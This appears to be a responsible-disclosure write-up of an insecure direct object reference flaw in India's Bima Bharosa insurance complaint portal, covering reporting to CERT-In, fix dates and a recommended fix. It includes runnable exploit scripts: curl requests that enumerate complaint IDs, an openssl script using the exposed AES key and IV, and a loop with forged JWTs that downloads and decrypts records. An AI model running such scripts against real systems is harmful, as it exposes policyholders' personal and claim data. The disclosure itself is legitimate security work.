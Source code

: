 ```yaml
---
title: Bimabharosa IRDAI
date:
  created: 2025-08-14
  updated: 2025-09-12
---
```


# BimaBharosa IRDAI Vulnerability 2024

The Bima Bharosa portal (<https://bimabharosa.irdai.gov.in>) had a vulnerability in its complaint history API that allowed access to sensitive complaint details by simply incrementing the complaint ID. This exposed personal and claim information of policyholders without authentication.

Summary of the vulnerabilities:

| Sr | API | Date reported | Date fixed | Days taken | CERT-in reference number |
|----|-----|--------------|------------|------------|--------------------------|
| 1  | [GetComplainthistorydata](#1-getcomplainthistorydata) | 18 November 2024 | before 30 November 2024 | less than 12 days | 68209424 |
| 2  | [encrypted GetComplainthistorydata](#2-getcomplainthistorydata-encrypted-payload) | 30 November 2024 | 1 January 2025 | 31 days | 68209424 |

Root cause in [OWASP](https://cheatsheetseries.owasp.org/index.html) terms:

- A01 2021 Broken Access Control: CWE-284 Improper Access Control, CWE-285 Improper Authorization
- A04 2021 Insecure Design: Insecure Direct Object Reference
- A07 2021 Identification and Authentication Failures: CWE-287 Improper Authentication

<!-- more -->

### 1. GetComplainthistorydata

The API endpoint `/api/PolicyholderComplaint/GetComplainthistorydata` accepted a POST parameter `complaint_Id` and returned the full complaint history for that ID. No authentication or authorization was required. By incrementing the `complaint_Id`, an attacker could access complaint details of other users, including names, policy numbers, claim details, and remarks from insurers.

```bash title="sample_script.sh" linenums="1"
#!/bin/bash
curl 'https://bimabharosa.irdai.gov.in/api/PolicyholderComplaint/GetComplainthistorydata' -X POST \
 --data-raw 'complaint_Id=4390102'
```

<details>
<summary>Sample response</summary>
```json linenums="1"
---8<--- "docs/vuln/posts/content_bimabharosa/bimabharosa_vuln_1.json"
```
</details>

### $$ Bogus encryption

An encryption was added to API request and response but with the KEY and IV exposed in the front-end code.

```bash title="encr_decr.sh" linenums="1"
#!/bin/bash
# Hex representation of "1234567890000000", exposed in the front-end code.
KEY=3132333435363738393030303030303031323334353637383930303030303030
# Hex representation of "7061737323313233", exposed in the front-end code.
IV=37303631373337333233333133323333

decrypt() {
    echo $(echo -n "$1"| xxd -r -p | openssl enc -aes-256-cbc -d -K "$KEY" -iv "$IV" -nosalt)
}

encrypt() {
    echo $(echo -n "$1" | openssl enc -aes-256-cbc -K "$KEY" -iv "$IV" | xxd -p | tr '[:lower:]' '[:upper:]')
}

for i in "BB2D310BF97F463A42D24E39C1187650" "C5C26E3D620D69E9422744CF50A3D523" "159EF5E147F60C65ECFBF9F9E7B31794"; do
    echo "Input: $i"
    decrypted=$(decrypt "$i")
    echo "Decrypted: $decrypted"
    echo
done

for i in "[]" "null" ""; do
    echo "Input: $i"
    encrypted=$(encrypt "$i")
    echo "Encrypted: $encrypted"
    echo
done
```

### 2. GetComplainthistorydata encrypted payload

This API accepted encrypted payload and provided encrypted response, but still without authorization checks.

Further, any JWT that anyone created was accepted by the API.

The two joined tokens in the header `Authorization` are useless.

```bash title="sample_script_encrypted.sh" linenums="1"
for complaint_id in {4390200..4390249}; do
    input="{\"complaint_Id\":\"$complaint_id\"}"

    payload="$(encrypt "$input")"

    curl -X POST "https://bimabharosa.irdai.gov.in/api/PolicyholderComplaint/GetComplainthistorydata" \
    -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1bmlxdWVfbmFtZSI6Ijk5OTk5OTk5OTkiLCJuYmYiOjE3MzI5NjgzNjQsImV4cCI6MTczMjk2ODQyNCwiaWF0IjoxNzMyOTY4MzY0fQ.h8DOqtaQ-aLch-XbiSSzUIIZKmPKq2eVScY20x1yEbQ:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1bmlxdWVfbmFtZSI6Ijk5OTk5OTk5OTkiLCJuYmYiOjE3MzI5NjgzNjQsImV4cCI6MTczMjk3MTk2NCwiaWF0IjoxNzMyOTY4MzY0fQ.7ftbp4DhReEyRiXqvfu6E3st1jgqJ_u2EJUr9Rog7os" \
    -H "Cookie: portal-culture=en; $$$$$$$$" \
    --data-urlencode "EncryptUpdateData=$payload" \
    -o "bimabharosa_vuln_2_$complaint_id.json"

    decrypt "$(cat "bimabharosa_vuln_2_$complaint_id.json")" > "bimabharosa_vuln_2_decr_$complaint_id.json"
done
```

### 3. Proper fix

After I provided pseudo-code to CERT-in (and bimabharosa), a proper fix was implemented. In the JWT,
a field was added to list all the complaint IDs. Upon subsequent calls to the APi, only if
the token contained the current ID, the API would return the response.

> Token creation code:
>
> ```
> token.complaint_ids = db.get_all_complaint_ids_of_user(user_id)
> ```
>
> API code:
>
> ```
> if token.complaint_ids.contains(api_payload.complaint_id):
     > return data
> else:
     > return "Unauthorized"
>
> ```
>
> Expired tokens should be rejected!!
>
> Remove the encryption and decryption logic from the payload and response. It is useless. It is security by obscurity which is a bad idea. Data protection can be done without encryption by using JWT tokens properly.
